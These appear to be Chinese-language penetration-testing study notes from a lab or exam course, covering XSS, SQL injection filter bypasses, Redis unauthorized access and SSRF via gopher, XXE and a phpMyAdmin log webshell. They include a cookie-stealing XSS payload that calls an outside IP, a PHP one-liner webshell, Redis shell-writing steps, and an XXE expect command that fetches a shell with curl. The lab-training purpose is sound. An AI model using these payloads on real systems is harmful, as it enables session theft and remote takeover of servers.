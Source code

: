 ##### day1 xss

启端口监听：

> python -m SimpleHTTPServer Port
>
> python3 -m http.server port
>


<script>document.write("<img src='http://172.16.10.147:10086/?id=" + document.cookie + "'>")</script>   ##本机Ip

key1:cookie  登录页面是后缀admin  账号root 密码空

key2:sql注入（注意登录后台删除login.php)可能存在空格过滤使用/**/ 或者 双写绕过  ＃过滤使用%23

显示位load_file(“/var/key2”)显示key2

key3:在tmp目录下![image-20230418100711102](https://cdn.jsdelivr.net/gh/PDX33/image/image-20230418100711102.png)

##### day2  Redis未授权访问

> ![image-20230418091942694](https://cdn.jsdelivr.net/gh/PDX33/image/image-20230418091942694.png)

> 需要gcc环境编译  在redis目录下make
>
> 环境准备：一台server  一台client
>
> ./redis-server启动服务端
>
> ./redis-cli -h server的IP

> 增：set 键 值
>
> 改：同上
>
> 查：get 键
>
> 删：del
>
> 设置生命周期：expire key  x秒
>
> ttl 键 查看剩余生命周期    
>
> 设置自增：incr key（通过运行来增）

> ###### **哈希操作**
>
> hset  key   里面项目key  值即数据
>
> flushdb   flushall

> ###### 漏洞利用
>
> config set dir 目录位置  (设置保存位置)
>
> 设置保存文件名config set dbfilename  xxx   执行save
>
> 就可在xxx中写shell
>
> ![image-20230418113306880](https://cdn.jsdelivr.net/gh/PDX33/image/image-20230418113306880.png)
>
> 

nc IP port 连接成功之后会自动转一行



- **使服务器端支持公钥登录设置**

![image-20230418143316776](https://cdn.jsdelivr.net/gh/PDX33/image/image-20230418143316776.png)

![image-20230418142346423](https://cdn.jsdelivr.net/gh/PDX33/image/image-20230418142346423.png)

![image-20230418142450721](https://cdn.jsdelivr.net/gh/PDX33/image/image-20230418142450721.png)

![image-20230418142509277](https://cdn.jsdelivr.net/gh/PDX33/image/image-20230418142509277.png)

![image-20230418142626033](https://cdn.jsdelivr.net/gh/PDX33/image/image-20230418142626033.png)

~ (root的家目录） .表示隐藏文件



![image-20230418145506212](https://cdn.jsdelivr.net/gh/PDX33/image/image-20230418145506212.png)

==**save  save save!!!**==

shift+page up 翻页

bash start.sh

docker ps -a

![image-20230418161908237](https://cdn.jsdelivr.net/gh/PDX33/image/image-20230418161908237.png)

##### D2 Redis SSRF复现

> ![image-20230418193723551](https://cdn.jsdelivr.net/gh/PDX33/image/image-20230418193723551.png)
>
> ![](https://cdn.jsdelivr.net/gh/PDX33/image/image-20230418193755453.png)
>
> ![image-20230418205220525](https://cdn.jsdelivr.net/gh/PDX33/image/202305181749311.png)

key3在计任务下/var/spool/cron/root

key3是base64编码的  要解码使用echo 那串字符  |based64  -d

==**一定别忘了save 求你了**==

若在上方浏览器框中输入，要注意字符丢失的问题如＋号

若用BP抓包要用转码  转关键字和全部转码都可以





##### D3

gopher协议：必须加端口，默认端口也要写。第一个字符不传输

格式：gopher：//ip：port/

%0A—>\r

0d%—>\n

![image-20230419112521572](https://cdn.jsdelivr.net/gh/PDX33/image/202305181749045.png)

```
gopher://192.168.202.135:6379/_set
```

###### 视频里第三题，无环境XXE

![image-20230419163640346](https://cdn.jsdelivr.net/gh/PDX33/image/202305181749182.png)

![image-20230419163657645](../AppData/Roaming/Typora/typora-user-images/image-20230419163657645.png)

###### 第四题（或者用eval函数改为post请求，连蚁剑找key2）本题操作机为kali

![image-20230419163743623](https://cdn.jsdelivr.net/gh/PDX33/image/202305181749068.png)

> 1.phpinfo()页面获得路径
>
> 2.扫描目录获得后缀为phpmyadmin登录路径
>
> **登录名root  pw为空**
>
>   打开log功能更改logfile路径为1获得的网站根路径
>
> 3.在库中写入一句话木马：
>
> ```
> select “<?php system($_GET[‘1’]); ?>”;
> ```
>
> 1=dir
>
> <img src="https://cdn.jsdelivr.net/gh/PDX33/image/202305181749202.png" alt="image-20230419164940777" style="zoom:200%;" />
>
> 
>
> 

##### D4 xxe的题实操

> 1.IP加协议头Https是访问不了的，需要查看证书在 Windows\system32\drivers\etc下的hosts文件中加入IP和域名，然后用域名访问
>
> 2.扫描目录得到rebots.txt路径并访问  再次得到xxe路径以及admin.php路径
>
> 访问抓包（注意：考试机代理需要自己设置，还要导入证书才可抓包）
>
> 3.抓包中写入xml代码（查找目录，获得第一个key)
>
> ```<!DCOTYPE xyz[    <!ENTITY  下方标签内的参数 SYSTEM    "" >   ]>```
>
> XML介绍
>
> 。标签对大小写敏感
>
> 。标签必须闭合
>
> 。必须有根元素

> 引号内的命令：``` expect://cat$IFS./xxx```
>
> 如遇不能直接读取：则使用base64下编译后读取：php://filter/read=convert.base64-encode/resource=./index.php  之后再解开

> 4.写shell,连蚁剑。注意设置里面https忽略勾选
>
> 在考试机写shell.php在此文件所在位置cmd中用python启端口
>
> 还是在BP中用exep:///usr/bin/curl$IFS-O$IFS’shell.php所在机的IP‘

> 5.在虚拟终端里面提权(见D3里第三题的截图)
>
> 

$IFS=空格，抓包过滤空格用此代替

![image-20230420165142925](https://cdn.jsdelivr.net/gh/PDX33/image/202305181749555.png)





